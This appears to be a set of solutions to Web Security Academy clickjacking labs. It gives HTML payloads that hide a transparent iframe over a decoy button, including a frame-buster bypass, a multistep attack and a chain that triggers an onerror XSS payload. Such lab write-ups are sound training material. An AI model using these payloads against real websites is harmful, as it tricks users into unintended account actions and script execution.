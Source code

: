 # Clickjacking (UI redressing)

## Basic clickjacking with CSRF token protection

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.0000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:310px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://acb51fbc1faf3227801a430500410078.web-security-academy.net/account"></iframe>
```

## Clickjacking with form input data prefilled from a URL parameter

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:420px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://aca41f091f5bb2d980ee3bc400f600de.web-security-academy.net/email?email=foo@bar.com"></iframe>
```

## Clickjacking with a frame buster script

```html
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:400px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://ac541f331f3b3af8801a0f9a009f0035.web-security-academy.net/email?email=foo@bar.com"></iframe>
```

## Exploiting clickjacking vulnerability to trigger DOM-based XSS

```html
<style>
    iframe {
        position:relative;
        width: 1000px;
        height: 800px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:720px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://acfa1f681fa8caab8000ccba007700bf.web-security-academy.net/feedback?name=<img src=1 onerror=alert(1)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
XSS exploit: `?name=<img src=1 onerror=alert(1)>`


## Multistep clickjacking

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.00001;
        z-index: 2;
    }

    div {
        position: absolute;
        top: 285px;
        left: 50px;
        z-index: 1;
    }

    .second {
        position: absolute;
        top: 285px;
        left: 250px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<div class="second">Click me</div>
<iframe src="https://ac451fab1e2281e08016312a0030004b.web-security-academy.net/account"></iframe>
```
